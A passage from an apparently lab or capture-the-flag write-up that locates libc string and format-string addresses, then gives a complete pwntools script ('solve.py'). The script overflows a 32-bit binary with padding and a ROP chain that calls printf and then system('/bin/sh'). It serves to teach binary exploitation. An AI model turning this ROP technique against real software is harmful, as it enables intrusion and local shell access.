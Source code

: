 now lets find "it" keyword

<img width="385" alt="image" src="https://github.com/user-attachments/assets/9a9e62ef-6557-45fc-879c-fb3cc98ed8b3">

so "it" = 0xf7d9759c

now we need the last char "!"

<img width="343" alt="image" src="https://github.com/user-attachments/assets/892c1129-f2c8-4be3-8a86-c9349ea98cb6">

so "!" = 0xf7d845af

so we have all the addresses of our keywords

```
I = 0xf7f40c88
did = 0xf7d99b73
space = 0xf7d842d0
it = 0xf7d9759c
! = 0xf7d845af
```
thats total 5 chars to be printed in one line , for each char we need one %s , so we have to find 5 %s like "%s%s%s%s%s" with a slash n to be printed in one line
meaning we have to search for "%s%s%s%s%s\n" , lets do it , that would be our format string

<img width="1032" alt="image" src="https://github.com/user-attachments/assets/16575d6b-3b27-4231-8a28-6d1a78b01644">

"%s%s%s%s%s\n" = 0xf7f50d21

now lets write the exploit

`solve.py`

```py
import sys
from pwn import *

context(log_level='CRITICAL', arch='i386')

binary = ELF("lab9")
libc = ELF("/usr/lib32/libc.so.6")

libc_base = 0xf7d84000

I = 0xf7f40c88
did = 0xf7d99b73
it = 0xf7d9759c
ex = 0xf7d845af
space = 0xf7d842d0
fmt = 0xf7f50d21

rop = ROP(binary)

rop.call("printf", [fmt,I,did,space,it,ex])
rop.call(libc_base + libc.symbols['system'], [libc_base + next(libc.search(b'/bin/sh'))])

padding = b"a" * 22
exploit = rop.chain()
payload = padding + exploit
sys.stdout.buffer.write(payload)
```
